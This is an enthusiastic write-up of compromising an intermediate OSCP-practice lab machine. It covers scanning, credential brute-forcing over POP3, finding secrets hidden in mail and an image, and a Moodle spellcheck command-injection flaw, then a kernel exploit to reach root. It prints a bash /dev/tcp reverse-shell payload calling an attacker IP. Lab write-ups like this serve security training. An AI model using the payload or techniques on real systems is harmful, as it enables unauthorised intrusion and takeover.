They say this is the OSCP type practice vulnerable machine.The intermediate level machine.
Well, any good penetration tests begins at the beginning!, we’re with scanning and enumeration!!!!
Hoping to the scans result we got:-
Hmm, port 55006, 55007 behaves weird, so we ran with deep scan on these ports and the results we got are:-

So we have pop3 service running, that’s good, we’ll look into this, but first let’s dive to web page running.

OOO…. the TOP SECRET…. Awesome!!,, after reviewing source code manually, We got some of the users and encoded string, it’s a password of boris!!. After intercepting the request using burp, the string was html encoded, after the decode you’ll get the password of boris that allows us to view the page /sev-home/.

Since we saw the pop3 service was running, so let’s enumerate that, I tried to

use the same password but it was Authentication failure. So i tried brute forcing the creds of boris and YES!!! we got the creds

Enumerating all the mails and got the 3rd mail quite interesting!!!

Okay, so Xenia is the another user, we’ll see into this, let’s try to gain access with Natalya also, with the same process, I brute forced the credentials for Natalya and logged in successfully, after reading the mails of her, one of the mail got the eyes!!!

So after redirecting to the given directory, there’s a moodle LMS !!!, since we have Xenia credentials. After successful login and enumerating all her account, there’s mail about dr_doak, Again brute forced the credentials of dr_doak using hydra, and we’re in!!!. Now go back to moodle application and log in with dr_doak credentials, AANNNDDD we found a s3cret.txt file…. hmm..

Okay the text was written by 007, cool!!!!, from that text we got some interesting intel and after following what’s inside the text, there’s image.YES!!!, you are right, there must be some data inside that image, so after extracting the information we got something like This

As per James (007), these are credentials of admin, so let’s try to fire these to moodle portal, and AWESOME!!! we’re in!!!. After enumeration we got moodle version info, so i googled and found about its weaknesses, , so after code review of the exploit it says:-
Moodle allows an authenticated user to define spellcheck settings via the web interface.The user can update the spellcheck mechanism to point to a system-installed aspell binary.By updating the path for the spellchecker to an arbitrary command, an attacker can run arbitrary commands in the context of the web application upon spellchecking requests.
This module also allows an attacker to leverage another privilege escalation vuln.Using the referenced XSS vuln, an unprivileged authenticated user can steal an admin sesskey and use this to escalate privileges to that of an admin, allowing the module to pop a shell as a previously unprivileged authenticated user.
That’s AWESOME!!!!, if we can manipulate the command used by spellcheck and can successfully able to deploy the reverse shell and can gain access, sounds cool!!!, let’s do this!!!

The payload I used :-
/bin/bash -c ‘/bin/bash>/dev/tcp/192.168.230.129/4444 0>&1 2>&1 &’ and then i move towards the system settings so that i can change the spell check engine to PSpellShell because google spell check was not allowing us to do so.

And then, i entered the random text and clicked for the spell check so that I can get the reverse shell onto my terminal.

And YES!!!! we gained the access!
PRIVILEGE ESCALATIONSHere I used privy.sh for enumerating this whole machine and found not quiet interesting stuffs, so i went for the Kernal Exploit. As you can see, the shell was not with gcc installed, so i went with cc compiler. At first the code was unable to execute even with using cc compiler that’s because the exploit was by default using gcc compiler, so i edited the exploit and replaced gcc with cc.

So i executed the exploit and you can see WE are ROOT!!!!!!

That great sense of feeling when you finally get the flag, as shown:-

That’s all for now!!! If you find any difficulty, feel free to ping me.
Linkedin:- https://www.linkedin.com/in/user-neeleshpatel/
Until Next Time,
And Hey, we’re friends now!!